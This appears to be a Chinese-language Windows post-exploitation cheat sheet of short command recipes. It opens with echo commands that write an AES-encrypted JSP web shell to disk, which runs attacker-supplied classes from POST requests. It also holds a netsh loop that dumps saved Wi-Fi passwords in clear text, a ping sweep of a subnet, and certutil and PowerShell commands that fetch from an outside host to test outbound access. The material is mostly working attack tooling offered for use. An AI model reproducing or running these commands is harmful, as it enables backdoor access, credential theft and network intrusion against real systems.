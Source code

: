
### Win-写文件

echo \^<%@page import\="java.util.,javax.crypto.,javax.crypto.spec.\*"%\^> >> C:/x/x.jsp

echo \^<%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%\^> >> C:/x/x.jsp

echo \^<%if (request.getMethod().equals("POST")){String k\="e45e329feb5d925b";session.putValue("u",k);Cipher c\=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%\^> >> C:/x/x.jsp

---

### Win-显示曾连接的无线密码

netsh wlan show profiles  
for /f "skip\=9 tokens\=1,2 delims\=:" %i in ('netsh wlan show profiles') do @echo %j | findstr -i -v echo | netsh wlan show profiles %j key\=clear

---

### Win-常用系统变量

查看当前用户目录%HOMEPATH  
查看当前目录%CD%  
列出用户共享主目录的网络路径%HOMESHARE%  
列出有效的当前登录会话的域名控制器名  
列出了可执行文件的搜索路径%Path%  
列出了处理器的芯片架构%PROCESSOR\_ARCHITECTURE%  
列出了Program Files文件夹的路径%ProgramFiles%  
列出了当前登录的用户可用应用程序的默认临时目录%TEMP% and %TMP%  
列出了当前登录的用户可用应用程序的默认临时目录%TEMP% and %TMP%  
列出了包含用户帐号的域的名字%USERDOMAIN%  
列出操作系统目录的位置%WINDIR%  
返回“所有用户”配置文件的位置%ALLUSERSPROFILE%  
返回处理器数目%NUMBER\_OF\_PROCESSORS%  
powershell地址%PSModulePath%

---

### Win-网络Ping探测

for /l %i in (1,1,255) do @ping 192.168.0.%i -w 1 -n 1 | find /i "ttl"  
for /l %i in (1,1,255) do @ping 192.168.0.%i -w 1 -n 1 | find /i "ttl">>"c:\\a.txt"  
for /l %i in (1,1,255) do @ping 192.168.%i.1 -w 1 -n 1 | find /i "ttl"

---

### Win-探测是否出网

certutil -urlcache -split -f http://test.abc.net  
powershell Invoke-WebRequest "http://test.abc.net/"

---